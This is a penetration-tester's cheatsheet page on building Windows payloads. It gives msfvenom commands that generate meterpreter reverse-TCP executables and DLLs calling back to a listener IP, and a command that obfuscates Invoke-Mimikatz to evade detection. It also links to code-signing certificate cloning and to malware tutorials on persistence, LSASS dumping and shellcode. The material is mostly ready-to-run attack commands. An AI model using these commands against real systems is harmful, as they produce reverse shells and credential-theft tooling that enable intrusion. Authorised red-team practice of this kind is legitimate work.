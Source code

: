 ```yaml
---
layout: post
title: dev / win / build
category: 40-dev
parent: cheatsheets
modified_date: 2023-07-17
permalink: /pen/win/build
---
```


**Mitre Att&ck Entreprise**: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

**Menu**
<!-- vscode-markdown-toc -->
* [msfvenom](#msfvenom)
* [sign](#sign)
* [obfuscate](#obfuscate)
* [sources](#sources)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='msfvenom'></a>msfvenom
pbuild = payload build
```sh
#? generate msfvenom payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f exe > /tmp/meter-rtcp-192.168.156.1-80.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f dll > /tmp/meter-rtcp-192.168.156.1-80.dll
```

## <a name='sign'></a>sign
psign = payload sign
* [code signing certificates cloning](https://posts.specterops.io/code-signing-certificate-cloning-attacks-and-defenses-6f98657fc6ec)

## <a name='obfuscate'></a>obfuscate
```sh
# PyFuscation (https://github.com/CBHue/PyFuscation) bring small usefull features
python3 PyFuscation.py -fvp --ps ./Scripts/Invoke-Mimikatz.ps1
```

## <a name='sources'></a>sources

* [cocomelonc/registry-run-keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)
* [cocomelonc/dump-lsass](https://cocomelonc.github.io/malware/2023/05/11/malware-tricks-28.html)
* [cocomelonc/run-shellcode-via-settimer](https://cocomelonc.github.io/malware/2023/06/04/malware-tricks-31.html)
* [ired.team/write-shellcode-c](https://www.ired.team/offensive-security/code-injection-process-injection/writing-and-compiling-shellcode-in-c)
* [codeproject/write-shellcode-c++](https://www.codeproject.com/Articles/5304605/Creating-Shellcode-from-any-Code-Using-Visual-Stud)
* [byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim)


